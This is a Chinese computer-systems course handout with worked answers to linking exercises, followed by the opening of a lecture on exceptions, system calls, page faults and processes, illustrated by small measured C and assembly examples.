1．N 是宏，预处理之后就不存在了，没有条目。v 是参数，t 是普通局部变量，都没有条目。rate：有，外部符号（UND）。total：有，局部符号，.bss（static、未初始化）。limit：有，全局符号，.data。hist：有，全局符号，.bss（未初始化，16 字节；加 -fcommon 时为 COMMON）。tag：有，局部符号，.rodata（static const，3 字节）。clamp：有，外部符号（UND）。step：有，局部符号，.text。calls：有，局部符号，.data（局部静态变量，初值 1 非 0；实际的名字是 calls.0）。update：有，全局符号，.text。
2．（a）成功。n 在模块 1 中是强符号、在模块 2 中是弱符号，按规则 2，两个模块对 n 的引用都解析到模块 1 的定义。f 在模块 2 中是 static，是局部符号，与模块 1 的全局符号 f 互不相干：模块 1 中的 f() 调用模块 1 的 f，模块 2 中的 f() 调用模块 2 自己的 f。（b）成功。两个 k 都是弱符号，按规则 3 任选一个，两处引用解析到同一个定义，但不知道是哪一个；两个模块对 k 的类型理解不同（long 与 int），是隐患。（c）失败。两个 m 都是强符号，违反规则 1，与初值是否相同无关。（d）成功。模块 1 的 int v; 是弱符号，模块 2 的函数 v 是强符号，按规则 2，模块 1 中对 v 的引用被解析到模块 2 的函数；main 返回的是函数 v 的机器代码的前 4 个字节被当作 int 读出的值，链接器不检查类型。在 gcc 13 的默认选项（-fno-common）下，未初始化的全局变量也是强符号，所以（a）、（b）、（d）都会报 multiple definition 的错误，（c）的结果不变。
3．（a）refaddr = 0x401200 + 0x2f = 0x40122f，填入的值是 0x401260 − 4 − 0x40122f = 0x2d，指令变成 e8 2d 00 00 00。验算：下一条指令在 0x401200 + 0x2e + 5 = 0x401233，加 0x2d 得 0x401260。（b）偏移字段按小端法读出是 0xfffffe9b，即 −0x165。下一条指令的地址是 0x401310 + 5 = 0x401315，目标地址是 0x401315 − 0x165 = 0x4011b0。
4．（a）填入 ADDR(tab) + addend = 0x404060 + 8 = 0x404068，按小端法是 68 40 40 00。（b）要访问的是 tab + 4，而 PC 相对寻址的基准是下一条指令，它在位移量字段之后 4 字节处，所以 addend = 4 − 4 = 0。位移量字段的地址是 0x401200 + 0x52 = 0x401252，填入的值是 0x404060 + 0 − 0x401252 = 0x2e0e。验算：下一条指令在 0x401256，加 0x2e0e 得 0x404064，正是 tab + 4。
5．（a）不能。扫描 p.o 后 U 中有 a1；扫描 liba.a 时取出 a1.o，U 变成 b1（此时没有人引用 a2，a2.o 不被取用）；扫描 libb.a 时取出 b1.o，U 变成 a2；命令行到此结束，a2 未定义，报 undefined reference to a2。（b）gcc p.o liba.a libb.a liba.a：最后再扫描一次 liba.a，取出 a2.o。（c）链接器只从存档中取出解析了未定义引用的成员。没有任何被取用的模块引用 b2，b2.o 从未被加入要链接的文件集合，它里面的未定义引用 c1 也就从未进入 U。实测链接后的可执行文件中只有 a1.o、a2.o、b1.o 三个库成员。
6．（a）counts：未初始化的全局变量，在 .bss，属于数据段。primes：已初始化的全局变量，在 .data，属于数据段。banner：const 全局数组，在 .rodata，属于只读的段。runs：局部静态变量，未初始化，在 .bss。local：普通局部变量，在栈上（也可能只在寄存器里）。p 指向的内存在堆上，而指针变量 p 自己在栈上。实测的地址依次是 0x404060、0x404030、0x402004、0x405000、0x7fffffff9ffc 和 0x4062a0，与这些区域的位置相符。（b）FileSiz 是这个段在文件中占的字节数，MemSiz 是它在内存中占的字节数。.bss 节在文件中不占空间，加载时才在内存中分配并清零，所以 MemSiz 比 FileSiz 多出 .bss 的大小 0xfc8 = 4040 字节，其中主要是 counts 数组的 4000 字节。（c）counts 有了非 0 的初值，就从 .bss 移到 .data，4000 字节的初值（一个 1 和 999 个 0）必须实实在在地存进文件。实测可执行文件从 16,128 字节增大到 20,144 字节，增加了 4016 字节；数据段的 FileSiz 也从 0x248 变成了 0x11f8。
7．（a）0x401046，即 addvec 的 PLT 条目中第二条指令的地址。（b）调用点 call 0x401040，到达 PLT 条目；第一条 jmp 经 GOT[4] 跳到 0x401046，也就是紧接着的 push 指令；压入编号 1 后跳到 PLT[0]；PLT[0] 压入 GOT[1]，经 GOT[2] 跳进动态链接器；动态链接器查出 addvec 的地址，写入 GOT[4]，再跳到 addvec。（c）调用点到 PLT 条目，第一条 jmp 经 GOT[4] 直接到达 addvec，只比直接调用多一次间接跳转。（d）动态链接器在加载时就解析了所有函数，GOT[4] 从一开始就是 addvec 的运行时地址，第一次调用和以后的调用走的都是（c）的路径。
8．第一条命令用 -fno-pie 编译，main.o 中取 array 地址的指令使用绝对地址，重定位类型是 R_X86_64_32。第二条命令没有任何选项，默认要生成位置无关的可执行文件（PIE），这种文件每次加载的地址都可能不同，不允许代码中出现在链接时就定死的 32 位绝对地址，所以链接器拒绝处理这个重定位条目。改正办法是让链接这一步与编译保持一致：gcc -no-pie -o prog main.o sum.o。-fno-pie 是给编译器的选项（不生成位置无关代码），-no-pie 是给链接器的选项（不生成位置无关可执行文件），重现课件的例子时两者都要加。按报错信息的建议改用 -fPIE 重新编译也能通过链接，但得到的重定位条目就不是课件上的类型了。
9．（a）有源代码时三种都能用，编译时打桩最简单；只有 .o 文件时用链接时打桩（--wrap）；只有动态链接的可执行文件时只能用运行时打桩（LD_PRELOAD）。（b）mymalloc.c 中的 #include <malloc.h> 也会找到本地的头文件，包装函数里的 malloc(size) 被宏替换成 mymalloc(size)，mymalloc 调用自己，无穷递归直到栈耗尽。实测程序以段错误结束（退出状态 139）。（c）运行时打桩依靠的是符号的名字：动态链接器在 LD_PRELOAD 指定的库里找名为 malloc 的定义，所以包装函数必须就叫 malloc，既不能被宏改名，也不需要链接器的 --wrap 约定。本地的 malloc.h 会把这个函数定义中的 malloc 替换成 mymalloc，库里就没有 malloc 这个符号了，打桩无从发生。
10．（a）foo6.c 中的 main 是函数，是强符号；bar6.c 中的 char main; 是未初始化的全局变量，是弱符号。按规则 2，链接器选择强符号，bar6.c 中对 main 的引用被解析到 foo6.c 的函数 main。p2 以为 main 是一个 char 变量，于是读出了函数 main 的机器代码的第一个字节并打印。不加优化时 main 的第一条指令是 push %rbp，编码为 0x55。（b）加了 -Og 之后 main 不再保存 %rbp，第一条指令是 sub $0x8,%rsp，编码为 48 83 ec 08，第一个字节是 0x48。教材作业 7.9 给出的输出 0x48 就是这种情况。（c）默认的 -fno-common 使 char main; 也成为强符号，与函数 main 冲突，链接器报 multiple definition of 'main'，程序无法生成。
—— 第 15 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · 第 16 讲
异常控制流：异常与进程（Exceptional Control Flow: Exceptions and Processes）
如何使用本讲义#
到上一讲为止，程序的执行顺序只由程序自己决定：一条接一条地执行指令，遇到跳转、调用和返回时转到程序指定的地方。可是计算机还要应付程序之外发生的事情——磁盘的数据传完了、用户按下了 Ctrl-C、定时器到时了、一条指令除以了零——这些情况要求处理器暂时离开当前的程序去处理，处理完再决定回不回来。这种由系统状态的变化引起的控制转移，统称为异常控制流（exceptional control flow，ECF）。本讲的课件分成三部分。第一部分是异常（16.1–16.4 节）：硬件和操作系统怎样配合，把控制交给内核里的异常处理程序；异常分成中断、陷阱、故障和终止四类，系统调用就是一种陷阱。第二部分是进程（16.5–16.6 节）：进程是运行中的程序的一个实例，它给每个程序提供“独占处理器”和“独占内存”两个假象，前者靠上下文切换实现。第三部分是进程控制（16.7–16.12 节）：怎样检查系统调用的错误，怎样用 fork 创建进程、用进程图分析并发程序可能的输出，怎样终止进程、回收子进程，以及怎样用 execve 在进程中运行另一个程序。16.13 节把“数 fork”这类题目的做法归纳成一套固定的步骤，作业 8.18、8.19 和往年考题都可以照此求解。
课件用到的每个程序，讲义都给出了完整的源代码和默认环境上的实际输出。并发程序每次运行的输出可能不同，讲义同时给出两样东西：用进程图（16.9 节）推出的全部可行输出，以及实际运行一两千次时各种输出出现的次数。前者回答“可能是什么”，后者说明“通常是什么”，两者不能互相代替。课件中的系统调用例子来自较早的 C 库，今天的 glibc 调用 open 时实际执行的是另一个系统调用，16.3 节对此作了说明。课件有几处笔误和不够准确的说法，用橙色方框指出。
表 1 第 16 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| 控制流与异常控制流（p.2–7） | 跳转和调用为什么不够；异常控制流有哪几个层次 | 16.1 |
| 异常与异常表（p.9–10） | 异常发生时控制怎样转到内核，处理完回到哪里 | 16.1 |
| 异常的分类（p.11–13） | 中断、陷阱、故障、终止的原因和返回行为 | 16.2 |
| 系统调用（p.14–16） | 用户程序怎样请求内核服务；参数和返回值怎样传递 | 16.3 |
| 故障的例子（p.17–18） | 缺页与非法内存引用；其他几种常见的故障 | 16.4 |
| 进程（p.20–22） | 进程是什么；它提供的两个抽象；怎样查看系统中的进程 | 16.5 |
| 并发进程（p.28–29） | 逻辑控制流；什么叫并发、什么叫顺序 | 16.5 |
| 用户模式与内核模式（教材 8.2.4 节） | 内核的代码凭什么能做用户程序做不了的事 | 16.6 |
| 上下文切换（p.23–27、p.30） | 进程的上下文包括什么；切换的步骤；多核的情形 | 16.6 |
| 错误处理与包装函数（p.32–34） | 为什么要检查每个系统调用的返回值 | 16.7 |
| 进程 ID 与进程状态（p.35–36） | getpid、getppid；运行、停止、终止三种状态 | 16.8 |
| 创建进程 fork（p.37–42） | 调用一次、返回两次；父子进程的异同；执行顺序的不确定性 | 16.8 |
| 进程图（p.43–48） | 用拓扑排序判断一个输出是否可能 | 16.9 |
| 终止进程（p.49） | exit；退出状态 | 16.10 |
| 回收子进程（p.50–52） | 僵死进程；孤儿进程由谁回收 | 16.10 |
| wait 与 waitpid（p.53–57） | 怎样等待、怎样取得退出状态；回收的顺序 | 16.11 |
| 加载并运行程序 execve（p.58–60） | execve 怎样替换当前进程的程序；新程序启动时的栈 | 16.12 |
| 专题：数 fork（综合 p.43–57） | 输出行数、可行输出的系统求法；缓冲区的陷阱 | 16.13 |
| 小结（p.61–62） | 四个“调用一次，返回几次”的函数 | 16.14 |
说明：课件页码与小班研讨题的对应
研讨题给出的页码就是 2026 版课件的页码，本讲义引用的也是这套页码。课件 p.4、p.8、p.19、p.31 是四页相同的目录页，p.2–3 是引子，讲义不单独讲。研讨题 1 对应第一部分（p.5–18），研讨题 2 对应第二、三部分（p.20–60）；研讨题 2 第（8）问的“第 56~7 页”指 p.56–57。第二部分逐题解答时，前面小节已经完整讲过的内容只给要点并注明小节号。
第一部分 知识点#
16.1 控制流、异常控制流与异常表（课件 p.2–10）#
处理器从开机到关机只做一件事：一条接一条地取出指令并执行。这个指令序列就是处理器的控制流（control flow，课件 p.5）。到目前为止，我们见到的改变控制流的机制只有两种——跳转和分支、调用和返回——它们都是程序自己安排的，用来对程序状态的变化作出反应，比如根据一个变量的值决定走哪条分支。
可是一个真正能用的系统还必须对系统状态的变化作出反应，而这类变化不是程序能预见到的（课件 p.6）。磁盘或网卡的数据到了，程序却正在忙别的事；一条指令把某个数除以了零；用户在键盘上按下了 Ctrl-C；系统的定时器到时了。这些事件发生在程序之外，程序里不可能为它们预先写好跳转。系统因此需要另一类机制，称为异常控制流（exceptional control flow，ECF）：由系统状态的变化触发，把控制从当前的程序转移到系统预先安排好的处理代码，处理完再决定回到哪里。
异常控制流存在于计算机系统的各个层次，课件 p.7 按实现方式由低到高列出四种。最低层是异常（exception），由硬件和操作系统共同实现，本讲第一部分的主题。往上一层是进程上下文切换（process context switch），由操作系统和硬件定时器实现，本讲第二、三部分的主题。再往上是信号（signal）和非本地跳转（nonlocal jump，setjmp 与 longjmp），分别由操作系统和 C 运行时库实现，是下一讲的内容。
★ 要点：正常控制流与异常控制流的分界
正常控制流是程序自己安排的控制转移：顺序执行、跳转、分支、调用和返回，它们对程序状态的变化作出反应。异常控制流是系统安排的控制转移：由系统状态的变化触发，把控制交给操作系统或运行时库，用来应付程序之外发生的事件。跳转指令和调用指令带来的控制流变化属于正常控制流，不算异常控制流。
课件 p.2–3 用一个真实的例子说明异常控制流为什么不可缺少。Linux 内核的 lp.c（并行口打印机的驱动程序）里有一条报错信息 "lp%d on fire"：早期的打印机控制器在检测到打印机过热时会点亮一个状态位，驱动程序读到这个状态，就把这条信息写进系统日志。打印机着火是硬件状态的变化，正在运行的程序对此一无所知，只有靠异常控制流，内核才能在这种事情发生时被叫起来处理。
异常与异常表#
异常是响应某个事件而把控制转移到操作系统内核的过程（课件 p.9）。这里的事件就是处理器状态的一次变化，比如除以零、缺页、一次 I/O 请求完成、用户按下 Ctrl-C。内核（kernel）是操作系统常驻内存的那一部分。
图 1 画出了一次异常的全过程。处理器正在执行用户代码中的指令 I_current，下一条本该执行的是 I_next。事件发生时，处理器把控制交给内核中的异常处理程序（exception handler）。处理程序运行结束后有三种可能：返回到 I_current，也就是把引起事件的那条指令重新执行一遍；返回到 I_next，跳过引起事件的指令继续执行；或者干脆终止这个程序。
图 1 一次异常的全过程（课件 p.9）：事件把控制从用户代码转移到内核的异常处理程序，处理完后返回引起异常的指令、返回下一条指令，或者终止程序
系统里的事件有许多种，处理程序也有许多个，处理器怎样找到对的那一个？每种事件被分配一个唯一的异常号 k，处理器用 k 作为下标去查一张异常表（exception table，也叫中断向量 interrupt vector，课件 p.10）。异常表的每一项是对应异常处理程序的地址：第 0 项指向 0 号异常的处理程序，第 1 项指向 1 号的，以此类推。每次发生 k 号异常，处理器就调用第 k 个处理程序。异常表在系统启动时由操作系统建立，常驻内存。
把这两步合在一起，一次异常的处理过程就是：事件发生，处理器确定异常号 k；用 k 查异常表，得到处理程序的地址，把控制交给它（同时保存返回所需要的信息，比如被打断处的指令地址）；处理程序在内核中运行，处理完后按这类事件的规则返回到 I_current、返回到 I_next，或者终止程序。异常号的具体分配因处理器而异，x86-64 的异常号表见 16.3 节。
⚠ 课件 p.9 的例子需要补充
课件把 arithmetic overflow（算术溢出）列在事件的例子里。在 x86-64 上，有符号整数的溢出并不产生异常：INT_MAX + 1 的结果是 −2147483648，程序照常继续执行（默认环境上实测）。会产生异常的是除法类的错误，包括除以零和 INT_MIN / −1（见 16.4 节）。有符号整数溢出在 C 语言里是未定义行为，编译器可以假定它不会发生，但处理器本身不为此报错。
16.2 异常的分类（课件 p.11–13）#
异常按两个标准分类：引起它的事件来自处理器外部还是内部，以及处理程序返回后的行为。课件 p.11 的分类树和教材图 8-4 的对照见 图 2 和 表 2。
图 2 异常的分类（课件 p.11）：按事件来自处理器外部还是内部，分成异步的中断和同步的陷阱、故障、终止
中断（interrupt）是唯一的异步异常，由处理器外部的事件引起（课件 p.12）。外部设备把处理器芯片上的中断引脚置为有效，处理器在执行完当前指令后响应。中断处理程序返回到下一条指令，被打断的程序感觉不到这次打断。典型的例子是定时器中断：每隔几毫秒，外部的定时器芯片触发一次中断，内核借此从用户程序手里收回控制权，决定接下来运行哪个进程——上下文切换（16.6 节）就是建立在它之上的。另一类是外部设备的 I/O 中断：键盘上按下 Ctrl-C、网卡收到一个数据包、磁盘的数据传输完成，都会以中断的形式通知处理器。
其余三类都是同步异常，由执行某条指令直接引起（课件 p.13）。
陷阱（trap）是有意安排的。程序执行一条特殊的指令，故意把控制交给内核，比如系统调用（16.3 节）、断点陷阱，以及一些专门的指令。陷阱处理程序返回到下一条指令，所以从程序的角度看，这条指令就像一次函数调用：执行它，得到结果，继续往下走。
故障（fault）是无意的，但有可能恢复。典型的例子是缺页（16.4 节）：程序访问的那一页目前不在内存里，处理程序把页面装入内存后，返回到引起故障的那条指令重新执行，这一次就能成功。故障也可能无法恢复，比如访问一个根本不存在的地址，这时处理程序选择终止程序。所以故障的返回行为是二选一：重新执行引起故障的指令，或者终止。
终止（abort）是无意的，而且不可恢复，用来报告严重的硬件错误，比如奇偶校验错和机器检查（machine check）。处理程序不把控制返回给应用程序，而是直接终止它。
表 2 四类异常的对照（课件 p.12–13，教材图 8-4）
| 类别 | 同步还是异步 | 原因 | 返回行为 |
|---|---|---|---|
| 中断 | 异步 | 处理器外部的事件：定时器到时、I/O 设备请求服务 | 总是返回到下一条指令 |
| 陷阱 | 同步 | 有意的：系统调用、断点、特殊指令 | 返回到下一条指令 |
| 故障 | 同步 | 无意但可能恢复：缺页、保护故障、浮点异常 | 可能返回到当前指令重新执行，也可能终止程序 |
| 终止 | 同步 | 无意且不可恢复：奇偶校验错、机器检查 | 不返回，终止程序 |
⚠ 课件 p.13 把非法指令归入终止，这个说法不够准确
课件在终止的例子里列了 illegal instruction（非法指令）。x86-64 上，执行一条未定义的指令会触发 6 号异常（#UD），内核向进程发送 SIGILL 信号，进程以“Illegal instruction”终止，退出状态 132，即 128 + 4（默认环境上用 ud2 指令实测）。从“程序被终止”这个结果看，它确实和终止很像；但按上面的定义，它属于故障：异常处理程序运行了，是处理程序选择了终止，而不是硬件错误使返回变得不可能。Intel 的手册也把 #UD 归为故障，终止类的典型例子是机器检查。两者的区别在下一讲学习信号时会更清楚：进程可以为 SIGILL 安装自己的处理程序，那时程序不一定被终止，而真正的终止类异常没有这种余地。
16.3 系统调用（课件 p.14–16）#
应用程序不能自己去操作磁盘、不能自己决定终止一个进程，这些事情只有内核能做。应用程序请求内核服务的办法是系统调用（system call）：执行一条专门的指令，故意触发一次陷阱，把控制交给内核。每个系统调用有一个唯一的编号，x86-64 Linux 上常用的几个见 表 3。
表 3 x86-64 Linux 的部分系统调用（课件 p.14，编号在默认环境上用程序核对）
| 编号 | 名字 | 作用 |
|---|---|---|
| 0 | read | 读文件 |
| 1 | write | 写文件 |
| 2 | open | 打开文件 |
| 3 | close | 关闭文件 |
| 4 | stat | 获取文件的信息 |
| 9 | mmap | 把文件或匿名区域映射进地址空间 |
| 12 | brk | 调整堆的大小（malloc 的底层之一） |
| 39 | getpid | 取得当前进程的 ID |
| 57 | fork | 创建进程 |
| 59 | execve | 加载并运行一个程序 |
| 60 | _exit | 终止进程 |
| 61 | wait4 | 等待子进程终止（wait 和 waitpid 的底层） |
| 62 | kill | 向进程发送信号 |
| 231 | exit_group | 终止进程的所有线程 |
| 257 | openat | 相对于某个目录打开文件 |
调用的约定是固定的（课件 p.15）。系统调用号放在 %rax；参数按顺序放在 %rdi、%rsi、%rdx、%r10、%r8、%r9（注意第四个参数是 %r10，不是函数调用约定里的 %rcx）；执行 syscall 指令后，返回值在 %rax 中，一个绝对值很大的负数表示出错，它的相反数就是 errno（见 16.7 节）。
课件 p.15 以打开文件为例。用户程序调用 open(filename, options)，它再调用库函数 __open，由 __open 执行 syscall 指令。课件给出的反汇编是：
00000000000e5d70 <__open>:
...
e5d79: b8 02 00 00 00 mov $0x2,%eax # open 是 2 号系统调用
e5d7e: 0f 05 syscall # 返回值在 %rax
e5d80: 48 3d 01 f0 ff ff cmp $0xfffffffffffff001,%rax
...
e5dfa: c3 retqmov $0x2, %eax 把系统调用号 2 放进 %eax，syscall 进入内核，内核里的处理程序完成打开文件的工作，返回后下一条指令把 %rax 与 0xfffffffffffff001 比较，判断是不是出错。课件 p.16 在这张图上加了一个说明框，把系统调用和普通函数调用作对比：两者都转移控制、返回后都执行下一条指令、都按调用约定传递参数、都把结果放在 %rax；本质的区别是 syscall 由内核执行，拥有另一套特权（16.6 节），而且被调用代码的“地址”不是写在指令里的，而是由 %rax 里的编号间接指定的，错误也通过 errno 报告。
⚠ 说明：今天的 C 库打开文件时已经不用 2 号系统调用
课件的反汇编来自较早的 C 库。默认环境的 glibc 2.39 里，open 实际执行的是 257 号系统调用 openat：先把 −100（常量 AT_FDCWD，表示“相对于当前工作目录”）放进 %edi，再 mov $0x101, %eax; syscall。用 strace 跟踪一个调用 open 的程序，看到的也是 openat 而不是 open。2 号调用本身并没有消失，课件 p.14 的表没有错，只是库函数不再用它。
类似的变化还有两处，后面会反复遇到。C 语言的 exit 走的是 231 号 exit_group 而不是 60 号 _exit，因为 exit 要终止进程的全部线程；C 语言的 fork 走的是 56 号 clone 而不是 57 号 fork，clone 是创建进程和线程的统一接口，fork 只是它的一种参数组合。write（1 号）、read（0 号）、getpid（39 号）则和课件的表完全一致，getpid 在库里只有三条指令：mov $0x27, %eax; syscall; ret。
为了看清系统调用本身，下面这个程序不经过 C 库，直接用 syscall 指令做两件事：向标准输出写一行字，然后终止（教材图 8-11 的 x86-64 版本，默认环境上实际运行输出 hello, world）。
.section .data
string:
.ascii "hello, world\n"
string_end:
.equ len, string_end - string
.section .text
.globl main
main:
# write(1, "hello, world\n", 13)
movq $1, %rax # write 是 1 号系统调用
movq $1, %rdi # 参数 1：标准输出的描述符是 1
movq $string, %rsi # 参数 2：字符串的地址
movq $len, %rdx # 参数 3：字节数 13
syscall # 陷入内核
# _exit(0)
movq $60, %rax # _exit 是 60 号系统调用
movq $0, %rdi # 参数 1：退出状态 0
syscall用 strace 跟踪一个普通的 C 程序，可以看到它背后的系统调用。下面是一个小程序的轨迹：它用 open 打开 /etc/hostname、用 read 读出内容、用 write 打印、用 getpid 取得自己的进程号，最后试图打开一个不存在的文件。省去加载共享库的部分后，轨迹是：
openat(AT_FDCWD, "/etc/hostname", O_RDONLY) = 3
read(3, "vm\n", 64) = 3
write(1, "vm\n", 3) = 3
close(3) = 0
getpid() = 26523
openat(AT_FDCWD, "/no/such/file", O_RDONLY) = -1 ENOENT
exit_group(0) = ?
+++ exited with 0 +++每一行的左边是系统调用和它的参数，等号右边是返回值。打开 /etc/hostname 成功，内核返回新的文件描述符 3；读到 3 个字节；打开不存在的文件失败，返回 −1，错误原因 ENOENT 就是“没有这个文件或目录”。这个程序从头到尾只做了几件事，strace 却记录了 41 次系统调用：程序启动时，加载器要打开并读取共享库、用 mmap 建立内存映射、用 brk 安排堆，这些都是系统调用。strace -c 可以按系统调用汇总次数，是观察一个程序“实际在向内核要什么”的最快办法。
教材补充：x86-64 的异常号（教材图 8-9 与 8.1.2 节）
异常号的分配是处理器规定的，和操作系统规定的系统调用号是两套编号，不要混淆。x86-64 上几个常见的异常号是（Intel 手册的编号，教材图 8-9 列出了其中几个）：0 号除法错误、6 号未定义指令、13 号一般保护故障（比如用户程序访问内核的地址）、14 号缺页、18 号机器检查。系统调用使用的陷阱没有固定的异常号，syscall 指令进入内核的路径由一组专门的寄存器（IA32_LSTAR 等）指定，这也是它比早期的 int 指令更快的原因。
16.4 故障的两个例子（课件 p.17–18）#
课件用同一段代码的两个版本说明故障的两种结局。代码声明一个有 1000 个 int 元素的全局数组 a，然后写其中一个元素。
第一个版本写 a[500]（课件 p.17）。如果 a[500] 所在的页面目前在磁盘上而不在内存里，这条写指令会触发一次缺页故障（page fault）。内核的缺页处理程序把这一页从磁盘读进物理内存，然后返回到引起故障的那条指令。这条指令被重新执行，这一次页面已经在内存里，写入成功。程序对整个过程一无所知：它只是写了一个数组元素，并不知道自己的指令被执行了两遍。
第二个版本写 a[5000]（课件 p.18）。这个地址已经落在数组之外，而且不属于进程的任何合法页面。写指令同样触发缺页故障，但处理程序检查后发现这个地址根本不该被访问，于是向进程发送 SIGSEGV 信号，进程以“segmentation fault”终止。
课件给出的是 32 位的反汇编：写 a[500] 的指令是 movl $0xd, 0x8049d10，写 a[5000] 的是 movl $0xd, 0x804e360。两个地址相差 0x4650，正好等于 4500 个 int 的大小，例子是自洽的。在默认环境上用 x86-64 重新编译，形式变了，道理相同：
int a[1000];
int main(void) { a[500] = 13; return 0; }
40110a: c7 05 fc 36 00 00 0d 00 00 00 movl $0xd, 0x36fc(%rip) # 404810 <a+0x7d0>x86-64 上这条指令用 PC 相对寻址：0x36fc(%rip) 表示“相对这条指令的下一条指令的地址偏移 0x36fc 字节”，objdump 在注释里算出目标是 0x404810，正好是 a 的起始地址 0x404040 加上 500 × 4 = 0x7d0。
常见问题：数组越界一定会导致段错误吗？
不一定，这是用 a[5000] 这个例子时容易产生的误解。故障是按页检查的，不是按数组边界检查的。默认环境上 a 占用 4000 字节，从 0x404040 到 0x404fe0，而它所在的可写段一直延伸到 0x404fff（页的边界）。所以写 a[1005]（地址 0x404ff4，仍在同一页内）不会有任何报错，程序正常退出；写 a[5000]（地址 0x408e60，落在段外）才触发故障并以状态 139 退出。139 = 128 + 11，11 是 SIGSEGV 的信号编号，这个换算在 16.11 节还会用到。C 语言不检查数组边界，一次“看起来成功”的越界写入，只是碰巧写在了同一页内，它可能已经覆盖了别的变量。
缺页的次数是可以数出来的。下面的程序申请 64 MB 内存，先逐页写一遍，再逐页写第二遍，用 getrusage 记录每个阶段增加的缺页数（默认环境上的实测结果写在注释里）：
char *p = malloc(64 * MB); /* 只分配，还没有碰：+3 次缺页 */
for (long i = 0; i < 64 * MB; i += 4096)
p[i] = 1; /* 每页写一个字节：+16383 次 */
for (long i = 0; i < 64 * MB; i += 4096)
p[i] = 2; /* 再写一遍：+0 次 */
/* 64 MB / 4 KB = 16384 页 */malloc 返回后，这 64 MB 只是一段保留的地址，物理页面还没有分配，所以缺页数几乎不增加。第一次写入碰了 16384 页，每一页都触发一次缺页，由内核分配物理页面后重新执行写入（少记的那一次是计数本身的误差）。第二次写入时页面都已在内存里，缺页数不再增加。这个实验把课件 p.17 的叙述变成了可以核对的数字：缺页处理程序确实在第一次访问时把页面准备好了，之后的访问就不再故障。
示例：另外两种常见的同步异常（默认环境实测）
除以零是 0 号异常（除法错误）。执行 100 / 0 的进程被终止，报告“Floating point exception”，退出状态 136 = 128 + 8，8 是 SIGFPE 的编号。名字里的 floating point 是历史原因，整数除法错误用的是同一个信号。INT_MIN / −1 同样触发它，因为 −2147483648 的相反数无法用 32 位补码表示；而 INT_MAX + 1 不触发任何异常，结果就是 −2147483648。
执行未定义指令（这里用 ud2）触发 6 号异常，进程报告“Illegal instruction”，退出状态 132 = 128 + 4。
测量这类程序时有一个编译器陷阱：把 1 / z 交给 gcc，它会被化简成一次比较而根本不做除法，异常不会发生。写成 100 / z 才能看到真正的除法错误。
16.5 进程、逻辑控制流与并发（课件 p.20–22、p.28–29）#
进程（process）是一个正在运行的程序的实例（课件 p.20）。这个定义把三个容易混淆的词分开了：程序是躺在磁盘上的一段代码和数据，是静态的；处理器是执行指令的硬件；进程是程序被加载、运行起来之后的那个动态的实体。同一个程序可以同时运行出多个进程（后面会看到），一个进程在它的一生中也可以先后运行多个程序（16.12 节的 execve）。
进程这个概念的力量在于它提供的两个抽象，每个都是一个精心维护的假象。
第一个是逻辑控制流（logical control flow）。每个进程都觉得自己独占着处理器：它的指令一条接一条地执行，中间没有任何停顿。实际上处理器在多个进程之间来回切换，一个进程停下来的时候，它的寄存器值被保存起来，下次轮到它时再恢复。提供这个假象的内核机制就是上下文切换（context switching，16.6 节）。
第二个是私有地址空间（private address space）。每个进程都觉得自己独占着整个内存：有自己的栈、堆、数据和代码，地址从零开始连续排列。实际上物理内存由所有进程共享，每个进程看到的地址都要经过一层翻译才对应到真正的物理位置。提供这个假象的内核机制是虚拟内存（virtual memory），那是教材第 9 章、本课程后面几讲的主题，本讲只需要知道它的存在和效果。
图 3 把这两个抽象画在一起。左边是进程自己的视角：一份完整的内存和一颗完整的 CPU。右边是系统的现实：许多进程的内存映像同时存在，但在传统的单处理器上，任何时刻只有一个进程的寄存器装在 CPU 里，其余进程的寄存器保存在内存中。
图 3 进程的两个抽象与系统的现实（课件 p.20–23）：（a）每个进程看到的是独占的内存和 CPU；（b）传统的单处理器上，多个进程的地址空间并存，只有正在运行的进程占用寄存器，其余进程的寄存器保存在内存里
这两个假象合在一起，使每个程序都可以当作“机器上只有我一个程序”来编写，程序之间的隔离和调度全部由内核负责。这也是进程被称为计算机科学中最深刻的思想之一的原因（课件 p.20）。
那么系统里实际有哪些进程？课件 p.22 用 Mac 上的 top 命令展示：那台机器当时有 123 个进程，其中 5 个是活跃的，每个进程由一个进程 ID（process ID，PID）标识。在默认环境上做同样的事：ps 列出全部 71 个进程，其中 1 号进程是 process_api（这是容器环境的特殊之处，16.10 节会用到），2 号是内核的 kthreadd，后面是一长串内核线程；top 显示 69 个进程中 1 个在运行、68 个在睡眠，CPU 大部分时间空闲。这些数字每次运行都不同，重要的是读懂每一列：PID 是进程自己的编号，PPID 是父进程的编号，STAT 是状态（R 表示正在运行或可运行，S 表示在睡眠，Z 表示僵死，16.10 节），COMMAND 是程序名。
进程之间还有父子关系。除了内核在启动时直接创建的 1 号和 2 号进程，每个进程都是由它的父进程用 fork 创建的（16.8 节），PPID 记下了这层关系，所有进程因此连成树。图 4 是默认环境上的一次实测：在 shell 里运行一个打印后再睡 3 秒的 fork2（16.9 节的程序，睡眠是为了让几个进程同时存在），在它们运行期间用 ps -eo pid,ppid,stat,comm 读出所有进程的 PID 和 PPID，再沿着 PPID 一层层往上追溯，就得到这棵树。
图 4 默认环境上实测的进程树：运行 fork2 的变体时，用 ps 读出 PID 与 PPID 后沿父进程向上追溯（灰色为内核启动时创建的两个进程，虚线框为省略的若干进程）
树的下半部分正是 fork2 的四个进程：212 是 shell 启动的最初进程，第一次 fork 得到 213；两者各自执行第二次 fork，得到 214 和 215。PID 按创建顺序递增，从编号就能读出谁先被创建。往上依次是执行这条命令的子 shell（210）、shell 本身（209），以及启动这个环境的几层管理进程，一直追溯到 1 号进程。2 号进程 kthreadd 是另一棵树的根，这次实测时系统里的 55 个内核线程都是它的子进程。STAT 列中，四个 fork2 进程都是 S，因为它们正在 sleep；shell 的 Ss 多出的小写 s 表示它是会话的首进程。
常见问题：一个进程和一个程序是什么关系？一个程序能对应多个进程吗？一个进程能对应多个程序吗？
